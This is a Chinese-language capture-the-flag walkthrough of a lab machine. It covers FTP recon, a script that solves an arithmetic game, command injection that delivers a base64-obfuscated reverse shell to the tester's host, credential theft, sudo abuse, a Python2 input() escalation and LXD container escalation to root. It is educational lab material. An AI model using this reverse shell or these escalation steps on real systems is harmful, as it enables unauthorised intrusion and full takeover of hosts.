# Recon

这台机器开放了`21/tcp`、`1337/tcp`和`7331/tcp`端口



## 21/tcp

`vsftp`服务存在匿名登录，登陆后存在`creds.txt`、`game.txt`、`message.txt`，使用`mget *`下载全部查看



`creds.txt`中是一对凭证，可能用于web

`game.txt`中的描述说明`1337`端口是设计的一个游戏

`message.txt`中的内容可能暗示了另一个用户名`nitish81299`



## 1337/tcp

web无法1337端口，使用`nc`连接，发现是一个算数游戏，要算1000道题才能得到作者设计的`gift`



用ai写个脚本

```python
import socket
import re

# --- 配置 ---
# 从截图中获取IP地址和端口
HOST = '192.168.2.121'
PORT = 1337
# ---------------

def solve():
    """
    连接到服务器并自动回答数学问题。
    """
    # 创建一个socket连接 (TCP)
    # 使用 with 语句可以确保连接在使用后被正确关闭
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        try:
            # 连接到服务器
            s.connect((HOST, PORT))
            print(f"[*] 成功连接到 {HOST}:{PORT}")

            # 用于存储从服务器接收的不完整数据
            buffer = ""

            # 开始一个循环来持续处理服务器的请求
            while True:
                # 从socket接收数据，建议缓冲区大小为4096
                data = s.recv(4096).decode('utf-8')
                if not data:
                    # 如果没有数据，说明服务器关闭了连接
                    print("\n[*] 服务器关闭了连接。")
                    break

                # 将新接收的数据附加到缓冲区
                buffer += data
                
                # 只要缓冲区中包含问题，就持续处理
                # 使用正则表达式查找形如 (数字, '运算符', 数字) 的模式
                # \s* 用来匹配任意数量的空格
                match = re.search(r'\((\d+),\s*\'(.)\',\s*(\d+)\)', buffer)

                if match:
                    # 提取数字和运算符
                    num1 = int(match.group(1))
                    op = match.group(2)
                    num2 = int(match.group(3))

                    # 打印收到的问题
                    print(f"[*] 收到问题: ({num1}, '{op}', {num2})")

                    # 根据运算符进行计算
                    if op == '+':
                        result = num1 + num2
                    elif op == '-':
                        result = num1 - num2
                    elif op == '*':
                        result = num1 * num2
                    elif op == '/':
                        # 根据截图中的例子 (6, '/', 5) -> 1.2，这里需要进行浮点数除法
                        result = num1 / num2
                    else:
                        print(f"[!] 未知的运算符: {op}")
                        break
                    
                    # 准备要发送的答案，并添加换行符
                    answer = str(result) + '\n'
                    print(f"[*] 发送答案: {result}")
                    
                    # 将答案编码并发送回服务器
                    s.sendall(answer.encode('utf-8'))
                    
                    # 从缓冲区中移除已处理过的问题部分
                    # match.end() 是匹配到的字符串的结束位置
                    buffer = buffer[match.end():]
                
                # 如果缓冲区中没有问题，但有其他信息，则打印出来
                elif "(" not in buffer and buffer.strip():
                     # 检查是否是最后的flag
                    if "}" in buffer and "{" in buffer:
                        print("\n[+] 可能已收到Flag!")
                        print("="*30)
                        print(buffer.strip())
                        print("="*30)
                        break
                    # 打印欢迎信息或其他中间信息
                    print(f"[*] 服务器信息:\n{buffer.strip()}")
                    # 清空缓冲区以接收新问题
                    buffer = ""


        except ConnectionRefusedError:
            print(f"[!] 连接被拒绝。请检查目标主机 {HOST} 是否在线以及端口 {PORT} 是否开放。")
        except socket.timeout:
            print("[!] 连接超时。")
        except Exception as e:
            print(f"[!] 发生了一个错误: {e}")

if __name__ == "__main__":
    solve()
```

跑完脚本得到`1356,6784,3409`，暂时不知道是干嘛的



## 7331/tcp

浏览器访问这是一个`web`，



目录扫描有`/wish`路径，是一个命令执行功能点



执行命令后会在跳转后的`url`中回显



# shell as www-data by command-injection

直接反弹shell

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEwMC80NDMgMD4mMQ=="|base64 -d|bash`



# shell as nitish by information-disclourse

例行检查，在`/opt/80/app.py`中发现凭证路径`/home/nitish/.dev./creds.txt`其中包含`nitish`用户密码

直接su到`nitish`



`nitish`能免密以`sam`用户的身份执行`/usr/bin/genie`



执行`man genie`查看文档发现可以使用`-cms`执行命令，发现执行完后拥有了`sam`用户权限



反弹shell到`pwncat-cs`



# shell as root by python2-input() vul

例行检查，`sam`用户可以`sudo`运行`/root/lago`命令，尝试执行这个文件，似乎是一些游戏交互



在`sam`用户`home`目录发现`.pyc`文件



使用`uncompyle6`反编译得到源代码

```python
# uncompyle6 version 3.9.2
# Python bytecode version base 2.7 (62211)
# Decompiled from: Python 3.11.13 (main, Jun  5 2025, 13:12:00) [GCC 11.2.0]
# Embedded file name: /home/mzfr/scripts/exp.py
# Compiled at: 2019-11-07 08:05:18
from getpass import getuser
from os import system
from random import randint

def naughtyboi():
    print 'Working on it!! '

def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'


def readfiles():
    user = getuser()
    path = input('Enter the full of the file to read: ')
    print 'User %s is not allowed to read %s' % (user, path)


def options():
    print 'What do you want to do ?'
    print '1 - Be naughty'
    print '2 - Guess the number'
    print '3 - Read some damn files'
    print '4 - Work'
    choice = int(input('Enter your choice: '))
    return choice


def main(op):
    if op == 1:
        naughtyboi()
    elif op == 2:
        guessit()
    elif op == 3:
        readfiles()
    elif op == 4:
        print 'work your ass off!!'
    else:
        print 'Do something better with your life'


if __name__ == '__main__':
    main(options())

# okay decompiling .pyc
```

这个程序`guessit()`函数会在猜对数字后返回`/bin/sh`，但代码存在漏洞

从语法能看出这个程序使用`python2`，而python2与python3的`input()`函数截然不同

python2 input():接收输入并执行

python3 input():仅接收输入作为字符串

```python
def guessit():
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
    else:
        print 'Better Luck next time'

```

这个差异导致此处直接输入`num`就会让`if s == num`返回`True`从而`getshell`



# The second way to root by lxd privileges escape

通过`sam`用户权限状态的进一步信息收集发现其属于`lxd group`



> LXD是Canonical（Ubuntu的母公司）开发的一个系统容器管理器。与Docker不一样的是LXD创建的容器更轻量、完整，拥有自己的init等
>
> lxd组的作用与docker组类似，任何被添加到lxd组的用户，都被授权可以同通过一个unix套接字与LXD守护进程进行通信，而LXD守护进程往往是以`root`权限在宿主机上运行的

当`sam`用户(lxd组成员)向LXD守护进程发送指令时，实际上就是在请求root权限的守护进程执行操作

如果通过lxd创建一个新的、携带特权的容器，并将宿主机的根目录挂载到这个容器下，容器内的root哦那个胡就可以通过这个挂载点，无限制的读取、写入和修改宿主机上的任何文件，从而实现完全的控制

---

在kali克隆项目`git clone  https://github.com/saghul/lxd-alpine-builder.git`然后执行其目录下的`build-alpine`生成`alpine-v3.22-x86_64-20250925_0602.tar.gz`镜像,然后将其上传到靶机中



通过`lxc image import ./lxd.tar.gz --alias pwn`导入镜像，如果执行报错没有权限就把`HOME`环境变量指向sam用户主目录



创建特权容器，将宿主机根目录挂载到容器中



最后使用`lxc start pwncontainer`然后`lxc exec pwncontainer /bin/sh`，`chroot`切换根目录，得到root权限



# about 1356,6784,3409

在得到root权限后查看进程，发现存在`knockd`守护进程，这表示存在`port knocking`

查看配置文件也证实了存在，当收到`port knocking`相关报文后会开启`ssh`






# Reference

- https://www.hackingarticles.in/lxd-privilege-escalation/

- https://github.com/saghul/lxd-alpine-builder.git

